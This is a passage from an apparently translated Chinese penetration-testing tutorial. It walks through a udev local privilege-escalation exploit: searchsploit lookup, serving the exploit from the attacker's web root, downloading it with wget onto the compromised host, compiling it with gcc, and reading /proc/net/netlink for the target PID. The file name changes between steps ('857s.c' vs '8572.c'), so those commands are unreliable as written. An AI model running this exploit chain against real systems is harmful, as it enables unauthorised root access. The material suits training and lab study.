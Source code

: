 ```
searchsploit udev
```

这个命令产生以下输出：

![](img/961435be-2b38-4812-8b1e-6fb23e698d2a.png)

接下来，我们需要将这个利用程序从攻击机器传输到受损机器。我们可以使用受损机器的`wget`命令来做到这一点。首先，将利用程序传输到我们的机器上受损机器将查找文件的文件夹。使用命令行复制利用程序，输入以下命令：

```
cp /usr/share/exploitdb/platforms/linux/local/857s.c /var/www/html
```

接下来，确保`apache2`服务器正在运行，输入以下命令：

```
service apache2 start
```

我们可以使用受损机器上的`wget`命令从攻击机器下载利用程序，该命令会在攻击机器的`/var/www/html`文件夹中查找文件：

![](img/47166511-3a04-48ac-9b53-244b474e98ee.png)

成功下载利用程序后，我们使用以下`gcc`命令在受害机器上编译它：

```
gcc 8572.c -o 8572
```

现在我们的利用程序已经准备好使用了。根据源代码，我们发现这个利用程序需要`udevd netlink`套接字的**进程标识符**（**PID**）作为参数。我们可以通过发出以下命令来获取这个值：

```
cat /proc/net/netlink
```

以下截图显示了这个命令的结果：

![](img/c6cf2b1a-be4f-45fd-af44-e5ebfaee662e.png)
